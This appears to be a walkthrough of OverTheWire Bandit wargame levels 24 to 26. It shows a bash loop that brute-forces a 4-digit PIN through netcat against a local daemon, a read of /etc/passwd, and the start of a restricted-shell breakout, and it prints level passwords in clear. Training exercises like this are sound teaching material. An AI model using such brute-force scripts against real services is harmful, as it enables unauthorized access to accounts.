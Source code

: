 # Level 24 -> 25
## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

## Solution
&emsp;The process to solve this level is a waste of time! you create a foldeer in `/tmp` (`mktemp -d`) and write a shell code file following the instructions below.
```shell
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.6SBIsxKjSZ$ nano shell.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/tmp.6SBIsxKjSZ$ chmod +x shell.sh 
bandit24@bandit:/tmp/tmp.6SBIsxKjSZ$ ./shell.sh 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:/tmp/tmp.6SBIsxKjSZ$ cat shell.sh 
#!/bin/bash
for i in {0000..9999}
do 
echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done | nc localhost 30002 | grep -v Wrong
```

## Result
`p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`

# Level 25 -> 26
## Level Goal
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

## Solution
&emsp; You private key connect ssh. Bandit26 will run program before you login. what program?
```shell
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ ls
bandit26.sshkey
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$ 
```